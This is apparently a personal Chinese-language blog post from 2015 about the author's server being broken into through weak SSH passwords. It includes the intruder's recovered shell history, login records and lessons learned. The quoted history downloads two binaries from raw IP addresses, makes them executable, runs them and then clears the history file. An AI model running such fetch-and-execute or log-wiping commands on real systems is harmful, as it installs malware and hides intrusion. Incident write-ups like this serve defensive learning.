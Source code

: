title: 服务器被黑了!
date: 2015-04-14 00:01:27
tags: [被黑了,服务器日志]
---

> 20150413 11:15PM, 准备睡觉的时候, lintel大大打给我说, 服务器上传流量异常.

# 我是那个时刻准备着(误)的三好程序猿
作为一个门口埋好地雷, 深夜三分钟即时上线的程序员, 立刻打开那台慢到掉渣的手提, 来处理这事.

既然有上传, 就是说程序还在运行中, 而且这服务器还没有开始正式投入, 负载不高, 稍微`top`一下就发现一个叫`prfos`的程序在跑.
查了一下, 是git用户运行它的.
遭了, 那是调试用, 所以随便弄了个弱密码, 现在被别人弄进来了....哎..我的错

# 他干了什么?
我跳到`/home/git`目录, 发现`.bash_history`还在, 天助我也!!

## 这是他执行的命令

```
su arylo
w
cat /proc/cpuinfo
ls
w
cat /proc/cpuinfo
ls
ps -x
uname -a
ss
cd //tmp
wget http://122.224.32.6:5547/prfos
wget http://183.60.110.3:6219/netns
chmod 7777 ./netns
./netns
chmod 7777 ./prfos
./prfos
cat /dev/null > ./.bash_history
```

看到第一句, 我还是蛮开心的, 至少我的密码没有被破解, 估计他觉得和git一样是弱密码,
后面的基本不用说了, 下载木马, 运行它们.
但有一句让我哭笑不得的命令出现了
`cat /dev/null > ./.bash_history`
我不知道说他是小菜鸟还是粗心什么的, 竟然可以出现这样的失误...导致我看到以上这些命令

## 停止它吧
好了, 竟然知道运行了什么, 就搜一搜怎样消灭他呗
可是无论是谷娘还是度娘, 但就是没有相关杀除的信息, 是毒性不强的问题吧?
```
arylo@localhost:/tmp$ ps -A|grep prfos
20244 ?        00:57:31 prfos
arylo@localhost:/tmp$ ps -A|grep netns
   12 ?        00:00:00 netns
20219 ?        00:00:10 netns
```
只好手动rm他们, 再kill一下他们, 并祈祷不要再运行了

PS.可能有点误会, 主要git用户运行的程序不多, 所以基本可以找到那个是有问题的

# 还有谁

```
arylo@localhost:/proc$ last
lintel   pts/1        li406-14.members Mon Apr 13 15:54   still logged in
arylo    pts/0        183.37.34.131    Mon Apr 13 15:06   still logged in
git      pts/0        58.46.18.253     Mon Apr 13 04:54 - 04:54  (00:00)
test     pts/0        113.98.255.48    Sun Apr 12 23:32 - 23:32  (00:00)
git      pts/0        114.112.54.22    Sun Apr 12 19:48 - 20:00  (00:11)
test     pts/0        192.3.159.181    Sat Apr 11 18:04 - 18:04  (00:00)
test     pts/0        27.112.8.214     Sat Apr 11 12:51 - 12:51  (00:00)
test     pts/0        li610-201.member Fri Apr 10 16:09 - 16:09  (00:00)
git      pts/0        198.23.132.34    Fri Apr 10 11:51 - 11:51  (00:00)
test     pts/0        f499.fuchsia.fas Thu Apr  9 04:54 - 04:54  (00:00)
test     pts/0        195.154.165.112  Wed Apr  8 13:36 - 13:36  (00:00)
test     pts/0        c099-250.cloud.g Tue Apr  7 09:17 - 09:17  (00:00)
test     pts/0        113.98.255.48    Mon Apr  6 16:35 - 16:35  (00:00)
test     pts/0        176.111.32.9     Mon Apr  6 14:54 - 14:54  (00:00)
arylo    pts/0        14.157.176.72    Sat Apr  4 06:40 - 14:00  (07:19)
arylo    pts/0        183.37.30.83     Fri Apr  3 16:52 - 20:12  (03:19)
arylo    pts/1        li729-87.members Fri Apr  3 10:17 - 10:34  (00:17)
arylo    pts/0        li729-87.members Fri Apr  3 09:24 - 10:20  (00:56)
arylo    pts/0        li729-87.members Fri Apr  3 09:13 - 09:24  (00:10)
arylo    pts/0        li729-87.members Fri Apr  3 09:11 - 09:13  (00:01)
arylo    pts/0        li729-87.members Fri Apr  3 08:47 - 09:08  (00:21)
git      pts/0        bolobolo1.torser Thu Apr  2 13:47 - 13:47  (00:00)
git      pts/0        tor.scenehoster. Thu Apr  2 13:19 - 13:20  (00:00)
```

为了保证以后的不再出现这种事情, last了一下,
精了Σ( ° △ °|||)︴
竟然这么多, IP都搜一下, 好像都是肉鸡, 好在没有对这服务器做什么...
除了git, 还有test, 都是弱密码的主...还是我的（﹀＿﹀）

# 总结

总结一下这件事所暴露的问题和解决方法
> Q: SSH一下被人登上了（┬＿┬）
> A: 改SSH的端口, 保证安全性
>
> Q: 弱密码惹的祸
> A: 以后不能这样了, 内部的都要改一下
>
> Q: 竟然被人运行了程序
> A: 以后真的要分配好权限...test用户给人跑进来了, 不过设置了`nologin`, 所以没事
> A: 还有还有, 以后真的一用户一类程序比较好
> A: 定期更新密码说不定是个好方法?
